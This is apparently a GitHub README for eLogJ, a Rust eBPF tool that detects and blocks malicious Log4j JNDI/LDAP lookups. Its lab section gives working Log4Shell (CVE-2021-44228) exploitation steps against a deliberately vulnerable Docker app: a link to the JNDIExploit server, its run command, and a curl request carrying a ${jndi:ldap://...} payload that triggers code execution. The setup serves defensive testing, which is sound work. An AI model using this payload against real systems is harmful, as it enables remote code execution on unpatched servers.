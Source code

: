 <img src="https://github.com/WillGAndre/eLogJ/blob/main/elogj.png" width="250">

# eLogJ
extended Log4j observability tool used to detect and prevent malicious JNDI (/LDAP) lookups. Currently tested in a controlled environment.<br>
- Developed with aya (https://github.com/aya-rs/aya) a Rust eBPF library.<br>
- Use in tandem with https://github.com/christophetd/log4shell-vulnerable-app (baseline).

0.1.2: Rulesets added as static file (logger-info).

### Dependencies
rust stable or nightly toolchain: `rustup install stable` / `rustup install nightly`
<br>
bpf-linker: `cargo install bpf-linker`

### Build Userspace:
> cargo build

### Build Kernelspace:
> cargo xtask build-ebpf

### Run:
> cargo xtask run

### Verbose:
> RUST_LOG=info cargo xtask run

<br>

## CVE-2021-44228

The repo (https://github.com/christophetd/log4shell-vulnerable-app) contains a Spring Boot web application which is vulnerable to the Log4Shell exploit. In order to boot this vulnerable instance, the following dependencies will be needed:<br>
## Spring Boot (Docker):
<a href="https://github.com/christophetd/log4shell-vulnerable-app/blob/main/Dockerfile">Dockerfile</a><br>
    - Log4j 2.14.1 <br>
    - JDK 1.8.0_181 <br>

## Malicious LDAP server:
This server will essentially receive LDAP requests triggered by the JNDI lookup in Spring Boot (Log4j) and promptly respond. The response is a second-stage payload that actually leads to RCE, since any type of action can be compiled as a (malicious) java class. JNDI lookups are triggered by the Log4j logger when it detects an explicit JNDI lookup command when logging occurs (`${jndi:`). Note that the type of transport protocol may vary (LDAP, RMI, ..).
> JNDI exploit server (baseline): <a href="http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream">JNDIExploit</a><br>
> Other JNDI exploits will also be explored soon.

## Explotation Steps:
### Spring Boot (Log4j) Instance:<br>
> docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
### JNDI Server:<br>
> java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
### Curl log:<br>
> curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
### Verify code execution: <br>
> docker exec vulnerable-app ls /tmp

Note: 
 Heavily WIP, deps/wiki/docs to be added soon.
